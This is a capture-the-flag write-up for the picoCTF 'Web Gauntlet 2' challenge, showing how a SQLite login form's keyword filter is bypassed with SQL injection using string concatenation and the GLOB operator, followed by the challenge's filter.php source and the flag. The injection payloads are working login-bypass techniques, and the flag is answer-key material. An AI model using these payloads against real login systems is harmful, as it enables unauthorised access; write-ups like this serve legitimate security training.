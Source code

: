# Web Gauntlet - 2

link to the chall - [link](https://play.picoctf.org/practice/challenge/174?page=1&search=web)

---


https://github.com/user-attachments/assets/5016c37d-ded8-4e5e-b36b-982a8147471d



---

Now the part two of the sql challenge.
Here we go.

Given filter is - `filters: or and true false union like = > < ; -- /* */ admin`

---

All of the Hints:
1. `I tried to make it a little bit less contrived since the mini competition.`
2. `Each filter is separated by a space. Spaces are not filtered.`
3. `There is only 1 round this time, when you beat it the flag will be in filter.php.`
4. `There is a length component now.`
5. `sqlite`

---

`SELECT username, password FROM users WHERE username='admi'||'n'' AND password='qwerty'
`

we need to bypass this sql,
![img](22.png)

They injection should be less than 35 chars

for the username we can easily use `adm'||'in` which would directly provide use with `username = 'admin'`
for password something like `' OR '1'='1' --` would have worked but due to filters, we cannot.

on reading a bit about SQL lite, `hint-5`
I found
```txt
SQLite GLOB operator is used to match only text values against a pattern using wildcards. If the search expression can be matched to the pattern expression, the GLOB operator will return true, which is 1. Unlike LIKE operator, GLOB is case sensitive and it follows syntax of UNIX for specifying THE following wildcards.
```

So, I used it.

```SQL
SELECT username, password FROM users WHERE username='admi'||'n' AND password='' GLOB '?'
```

and 
![img](23.png)

from /filter.php

```php
<?php
session_start();

if (!isset($_SESSION["winner2"])) {
    $_SESSION["winner2"] = 0;
}
$win = $_SESSION["winner2"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner2"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner2"] = 0;
}

// picoCTF{0n3_m0r3_t1m3_9605a246c21764e7691ca04679ad321a}
?>
```

---

and the flag - `picoCTF{0n3_m0r3_t1m3_9605a246c21764e7691ca04679ad321a}`
